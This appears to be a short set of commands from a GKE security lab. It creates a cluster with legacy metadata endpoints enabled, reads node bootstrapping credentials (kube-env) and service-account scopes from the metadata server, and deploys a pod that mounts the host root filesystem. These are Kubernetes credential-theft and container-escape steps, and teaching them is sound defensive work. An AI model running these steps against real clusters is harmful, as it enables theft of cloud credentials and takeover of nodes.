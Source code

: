 # Create a simple GKE cluster

export MY_ZONE=us-central1-a


gcloud container clusters create simplecluster --zone $MY_ZONE --num-nodes 2 --metadata=disable-legacy-endpoints=false


kubectl version


# Run a Google Cloud-SDK pod

kubectl run -it --rm gcloud --image=google/cloud-sdk:latest --restart=Never -- bash

curl -s http://metadata.google.internal/computeMetadata/v1beta1/instance/name


curl -s http://metadata.google.internal/computeMetadata/v1/instance/name


curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/name

kubectl run -it --rm gcloud --image=google/cloud-sdk:latest --restart=Never -- bash

## Explore the GKE node bootstrapping credentials

curl -s http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/


curl -s http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env



## Leverage the Permissions Assigned to this Node Pool's Service Account

curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes


## Deploy a pod that mounts the host filesystem

```
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: hostpath
spec:
  containers:
  - name: hostpath
    image: google/cloud-sdk:latest
    command: ["/bin/bash"]
    args: ["-c", "tail -f /dev/null"]
    volumeMounts:
    - mountPath: /rootfs
      name: rootfs
  volumes:
  - name: rootfs
    hostPath:
      path: /
EOF
```
